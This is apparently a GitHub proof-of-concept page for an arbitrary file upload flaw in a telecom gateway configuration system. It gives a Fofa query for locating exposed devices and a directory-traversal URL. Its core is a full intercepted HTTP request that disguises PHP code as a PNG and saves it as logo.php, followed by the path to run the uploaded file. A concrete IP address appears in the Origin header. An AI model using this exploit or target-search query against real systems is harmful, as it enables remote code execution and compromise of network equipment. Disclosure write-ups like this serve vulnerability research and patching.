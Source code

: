 ### Telecom Gateway Configuration Management System Arbitrary File Upload

**Fofa Query:** `body="img/dl.gif" && title="系统登录"`

**Vulnerability Description:** The telecom gateway configuration system suffers from an arbitrary file upload vulnerability.

**Vulnerability POC (Proof of Concept):**

1. **Firstly, visit the following URL:**

   ```
   /newlive/manager/self_detail.php?dir=../../
   ```

2. **Then, click on the following images:**

 ![image](https://github.com/user-attachments/assets/286b6a33-30dd-4d06-8b7b-6366b788b1a0)


   Select any option:

![image](https://github.com/user-attachments/assets/cb8d3c4f-b0eb-472c-bdd0-8807be6b56df)


![image](https://github.com/user-attachments/assets/269b6909-1749-4fab-af0a-d7bc8a07c51f)


3. **Choose a PNG file, click upload, and intercept the request. Modify it as follows:**

   ```
   POST /newlive/manager/upload_file.php HTTP/1.1
   Host: 
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:134.0) Gecko/20100101 Firefox/134.0
   Accept: */*
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Accept-Encoding: gzip, deflate, br
   Content-Type: multipart/form-data; boundary=---------------------------378396372240200292154061098840
   Content-Length: 727
   Origin: http://60.179.171.239:8090
   Connection: keep-alive
   Referer: http:///newlive/manager/upload_file.php?dir=1
   Cookie: PHPSESSID=056etpqra4hh46jgcl8u6jcch2
   Priority: u=0

   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="file"; filename="blob"
   Content-Type: application/octet-stream

   �PNG
   
   <?php phpinfo();?>
   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="blob_num"

   1
   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="total_blob_num"

   1
   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="file_name"

   logo.php
   -----------------------------378396372240200292154061098840
   Content-Disposition: form-data; name="dir"

   1
   -----------------------------378396372240200292154061098840--
   ```

   ![image](https://github.com/user-attachments/assets/cc4352a6-cd92-4d92-9c77-d7b994bfc192)


4. **Access the uploaded file:**

   ```
   http://xxxxxx/newlive/upload/media/'directory'/returned_file_name
   ```

---

Please ensure that you have the necessary permissions and legal rights to conduct penetration testing in your environment to avoid any unauthorized activities.
